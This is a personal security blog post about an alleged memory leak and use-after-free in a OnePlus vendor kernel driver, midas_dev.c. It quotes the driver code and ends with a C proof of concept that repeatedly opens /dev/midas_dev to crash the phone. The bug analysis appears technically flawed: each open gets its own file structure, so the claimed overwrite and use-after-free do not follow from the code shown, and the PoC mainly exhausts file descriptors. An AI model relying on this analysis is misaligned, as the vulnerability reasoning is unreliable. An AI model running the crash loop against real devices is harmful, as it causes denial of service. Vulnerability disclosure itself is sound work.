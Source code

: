 +++
title = "Oneplus kernel memory leak and potential use after free"
date = "2025-09-28T03:07:44+05:30"
author = "IamAlch3mist"
authorTwitter = "" #do not include @
cover = ""
tags = ["use-after-free", "memory-leak", "kernel-exploit"]
keywords = ["", ""]
description = "heh"
showFullContent = false
readingTime = true
hideComments = false
color = "" #color from the theme settings
+++


I borrowed a OnePlus phone from a friend to experiment with the kernel. Since the kernel is open source, I started digging (hoping for an LPE). I found a couple more bugs they are for another blog post, but here’s a neat little memory leak that can be abused for DoS and can lead to use‑after‑free.

I focused on vendor-specific drivers rather than the [mainline kernel](https://github.com/OnePlusOSS/android_kernel_oneplus_mt6893). The driver in question is: [`drivers/soc/oplus/midas/midas_dev.c`](https://github.com/OnePlusOSS/android_kernel_oneplus_mt6893/blob/oneplus/MT6893_R_11.0/drivers/soc/oplus/midas/midas_dev.c)


The driver exports the usual file operations with callbacks to open, close, mmap, and ioctl. 
```c
static const struct file_operations midas_dev_fops = {
	.open = midas_dev_open,
	.release = midas_dev_release,
	.mmap = midas_dev_mmap,
	.unlocked_ioctl = midas_dev_ioctl,
};
```

On open the driver an allocation happens using kzalloc with the size of struct midas_priv_info and stored in the pointer info. At 2 the allocated info is stored in privat_data member of file struct which is basically a void pointer. 

On close the info pointer is retrieved from the file struct and passed to kfree. 

```c
static int midas_dev_open(struct inode *inode, struct file *filp)
{
	int ret = 0;

	struct midas_priv_info *info = kzalloc(sizeof(struct midas_priv_info), GFP_KERNEL); // [1]  
	if (IS_ERR_OR_NULL(info))
		return -ENOMEM;

	info->mmap_addr = vmalloc_user(sizeof(struct midas_mmap_data));
	if (IS_ERR_OR_NULL(info->mmap_addr)) {
		pr_err("mmap_addr vmalloc failed!\n");
		ret = -ENOMEM;
		goto err_info_alloc;
	}

	filp->private_data = info; // [2]
	return 0;

err_info_alloc:
	kfree(info);
	return ret;
}


static int midas_dev_release(struct inode *inode, struct file *filp)
{
	struct midas_priv_info *info = filp->private_data;
	if (IS_ERR_OR_NULL(info))
		return 0;

	if (info->mmap_addr != NULL)
		vfree(info->mmap_addr);

	kfree(info); // use after free
	return 0;
}
```

There are no locks or checks on in the file->private_data. If the driver is opened multiple times (without properly closing prior handles). The file->private_data pointer can be overwritten with a newly allocated info. Which results in memory leak. 


On close the allocated memory is freed but file->private data holds reference to the info pointer and didn't set to NULL. Combined with the ability to open the driver multiple times leading to potential use-after-free. 

system user have permision to interact with the driver. 
```yaml
OP515BL1:/data/local/tmp # ls -al /dev/midas_dev
crw-rw---- 1 system system 238,   0 2025-09-28 04:53 /dev/midas_dev
```
Poc to crash the device using the memory leak.
```c
// aarch64-linux-gnu-gcc -static poc.c 

#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>

int main(void) {

    int fd;
    for(unsigned int i = 0; i < 0xffffff; i++) {
    fd = open("/dev/midas_dev", O_RDWR);
    if (fd < 0) {
        perror("open failed");
        continue;
    }

}
    close(fd);

return 0;
}
```

{{< youtube kzA2Qn1aQik >}}
# Conclusion 
I expected good quality from oneplus it was disappointing to see such bugs. In the end I found couple more uaf.
